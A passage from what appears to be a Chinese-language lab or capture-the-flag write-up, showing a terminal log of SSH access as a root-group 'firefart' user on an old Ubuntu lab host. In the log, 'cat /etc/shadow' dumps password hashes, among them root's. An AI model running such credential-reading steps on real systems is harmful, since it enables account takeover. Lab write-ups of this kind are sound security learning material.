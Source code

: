 firefart必须设置密码，才能通过ssh登录。

```
┌──(root㉿kali)-[~/Downloads]
└─# ssh firefart@192.168.248.132                                                     
firefart@192.168.248.132's password: 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
Your Ubuntu release is not supported anymore.
For upgrade information, please visit:
http://www.ubuntu.com/releaseendoflife

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Thu Oct 27 21:21:48 2022
firefart@ubuntu:~# whoami
firefart
firefart@ubuntu:~# groups firefart
firefart : root
firefart@ubuntu:~# cat /etc/shadow
root:$6$/jLmt06/$G/0YOXYI78JSp/rucIyOJ2zUALrYEsXNoYXAYaaJDtVBM2r3euhocyt4rv/jJZrmMeQ4DxLSs5QhR8fa7cFNe.:19293:0:99999:7:::
daemon:*:19293:0:99999:7:::
bin:*:19293:0:99999:7:::
sys:*:19293:0:99999:7:::
sync:*:19293:0:99999:7:::
games:*:19293:0:99999:7:::
man:*:19293:0:99999:7:::
lp:*:19293:0:99999:7:::
mail:*:19293:0:99999:7:::
news:*:19293:0:99999:7:::
uucp:*:19293:0:99999:7:::
proxy:*:19293:0:99999:7:::
www-data:*:19293:0:99999:7:::
backup:*:19293:0:99999:7:::
list:*:19293:0:99999:7:::
irc:*:19293:0:99999:7:::
gnats:*:19293:0:99999:7:::
nobody:*:19293:0:99999:7:::
libuuid:!:19293:0:99999:7:::
syslog:*:19293:0:99999:7:::
messagebus:*:19293:0:99999:7:::
phos:$1$BGtRBZla$X2KekLHgNdS1Q52luDdFi.:19293:0:99999:7:::
sshd:*:19293:0:99999:7:::
firefart@ubuntu:~# uname -a
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```